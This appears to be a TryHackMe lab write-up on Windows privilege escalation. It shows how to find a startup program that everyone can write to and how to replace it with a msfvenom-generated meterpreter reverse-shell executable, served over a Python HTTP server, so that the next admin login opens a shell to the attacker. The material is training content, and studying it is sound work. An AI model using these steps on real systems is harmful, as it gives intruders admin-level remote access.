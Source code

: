 ```yaml
---
description: https://tryhackme.com/room/windowsprivescarena
---
```


# 🏃‍♂️ Autoruns

###

Autoruns is a powerful utility designed for Windows users to manage and control programs that launch automatically when the computer starts. In simpler terms, it allows you to see and control what applications and services run during your computer's startup process.

<figure><img src="../../../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

### Steps to Identify and Exploit Autorun for Privilege Escalation

Connect via RDP from your Linux to Windows machine :

<figure><img src="../../../../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>

1. **Run Autoruns64.exe:** Execute `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe` in an admin command prompt to identify startup programs

at the very top we can see  a file called my program:&#x20;

<figure><img src="../../../../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

2. &#x20;**Accesschk for Permissions:** Use `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"` to check file permissions.&#x20;

Look for broad access, as it can lead to privilege escalation

<figure><img src="../../../../../.gitbook/assets/image (401).png" alt=""><figcaption></figcaption></figure>

we are looking for file all access for everyone on a file that automatically runs we can get very malicious as it is possible to make someone run it as admin and then get admin access,&#x20;

3. **PowerUp Analysis:**

* Navigate to `C:\Users\user\Desktop\Tools\PowerUp`.
* Run PowerShell with `powershell -ep bypass`.
* Execute `. .\PowerUp.ps1`.
* Run `Invoke-AllChecks` to identify autorun files and assess permissions

<figure><img src="../../../../../.gitbook/assets/image (402).png" alt=""><figcaption></figcaption></figure>

it identifies the autorun file and tells us that everyone has RWX on this file , this is going to come in play soon&#x20;

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

* **Prepare Kali:**
  * Open two terminals.
  * Launch `msfconsole` in one.
  * Check the IP with `ip a` in the other.
* **Generate Malicious Executable:**
  * Use `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe` \[4].

This will create a program.exe:&#x20;

<figure><img src="../../../../../.gitbook/assets/image (403).png" alt=""><figcaption></figcaption></figure>

On the msfconsole terminal:

<figure><img src="../../../../../.gitbook/assets/image (404).png" alt=""><figcaption></figcaption></figure>

Now go back on the other terminal and move the file:

<figure><img src="../../../../../.gitbook/assets/image (405).png" alt=""><figcaption></figcaption></figure>

**Host Local Server:**

* Move the executable to the server directory.
* Start a local server with `python -m http.server 4040`.
* **Replace Autorun File:**
  * Fetch the file on the Windows machine via RDP.

<figure><img src="../../../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

Replace the autorun file with the generated malicious executable.

<figure><img src="../../../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

* **Simulate Admin Login:**
  * Disconnect RDP.
  * Reconnect using admin credentials obtained earlier.

<figure><img src="../../../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

This is going to simulate an admin login&#x20;

<figure><img src="../../../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

connect with the admin credentials we got in the intro of this box

* **Exploit Success:**
  * Upon session opening, a pop-up appears.

<figure><img src="../../../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Check `msfconsole` for a successful shell connection.

<figure><img src="../../../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>
